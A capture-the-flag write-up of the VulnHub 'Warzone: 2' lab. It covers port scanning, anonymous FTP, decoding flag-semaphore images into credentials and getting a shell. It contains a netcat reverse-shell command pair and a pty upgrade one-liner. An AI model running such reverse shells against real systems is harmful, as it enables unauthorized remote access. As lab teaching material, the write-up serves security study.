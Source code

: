 # Warzone: 2

[Machine](https://www.vulnhub.com/entry/warzone-2,598/ "https://www.vulnhub.com/entry/warzone-2,598/")

## Reconnaissance

### nmap

#### Ports scanning:
```
nmap -sS -T4 -p- 192.168.88.224 -oA ports
```
#### Services scanning:
```
nmap -sV -O -p21,22,1337 192.168.88.224 -oA services
```
### ftp

Anonymous login is allowed.

![ftp](screenshots/ftp.png)

From there we have a three pictures.

username:

![username](ftp/username.PNG)

password:

![password](ftp/password.PNG)

token:

![token](ftp/token.PNG)

I searched for cipher on the username and password pictures. And i got [flag semaphore](https://en.wikipedia.org/wiki/Flag_semaphore "https://en.wikipedia.org/wiki/Flag_semaphore").

Decode the symbols from pictures and get a username and a password in `creds/`. I wrote it in upper case as wiki says.

### port 1337

1337 port seems to be a custom application.

I tried to take a banner:

![1337 conn](screenshots/1337_banner.png)

## Threat modelling

I think that it is enough to gather. Now we have the creds and have the 1337 port with login. I believe we easily will get remote access and that's all. 

By the way, need to write a script to create the token!

## Vulnerability analysis

### vsftpd

Not vulnerable.

### ssh

Not vulnerable.

### Misconfiguration of ftp

The main vulnerability is this. But i don't know about backend of 1337 port. Maybe here we can also have binary vulnerabilities.

## Exploitation

### Token

[Script to create a token](token.py)

Successfully got access with 'lower' credentials.

![access](screenshots/1337_access.png)

But we don't have shell yet.

### Shell

Get shell is easy:

Local:
```
nc -lnvp 4444
```
Target:
```
nc 192.168.88.225 4444 -c /bin/sh
```
So, after target connected to us, it will open a shell.

![shell](screenshots/shell.png)

```
python -c 'import pty;pty.spawn("/bin/bash")'
```
User - `www-data`.

### ssh flagman

In flagman home directory:

![warzone](screenshots/warzone.png)

Now we have a good shell and ssh access.

## Post exploitation

## Sources

### Flag semaphore

[wiki](https://en.wikipedia.org/wiki/Flag_semaphore "https://en.wikipedia.org/wiki/Flag_semaphore")
